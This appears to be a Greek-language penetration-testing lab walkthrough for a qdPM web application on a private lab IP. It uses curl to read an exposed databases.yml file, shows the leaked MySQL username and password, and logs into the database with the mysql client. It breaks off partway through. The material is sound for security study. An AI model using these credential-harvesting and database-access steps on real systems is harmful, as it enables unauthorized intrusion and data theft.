 


## Exploiting Vulnerabilities

Exploiting using the vulnerability Password Exposure: 


> [!explanation]
> Το κενο ασφαλειας Password Exposure, δειχνει οτι υπαρχει δημόσιο το αρχειο `database.yml` που περιεχει συνθηματικα για την mysql βαση που στηριζεται το site.


Ειτε παμε στην σελιδα απο το browser ειτε με την εντολη curl : 

```bash
curl http://192.168.1.9:80/core/config/databases.yml 
```

<font color="#646a73">Output:</font>
```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true 
```

Οποτε βρηκαμε το username και τον κωδικο του admin της βασης δεδομενων που τρεχει πισω απο τον webserver και μπορουμε να συνδεθουμε σε αυτη.



Different way to see the vulnerabilities :
```bash
whatweb http://$ipt
```



---
<div style="page-break-after: always;"></div>

---

# Exploitation 


## Connecting to database 

Συνδεομαστε στην βαση δεδομενων με το username και τον κωδικο που βρηκαμε απο το κενο ασφαλειας : 


`````col

````col-md
Εντολή σύνδεσης mysql :
```bash 
mysql -u qdpmadmin -h 192.168.1.9 -p
```
````


````col-md

Username:
```
qdpmadmin
`````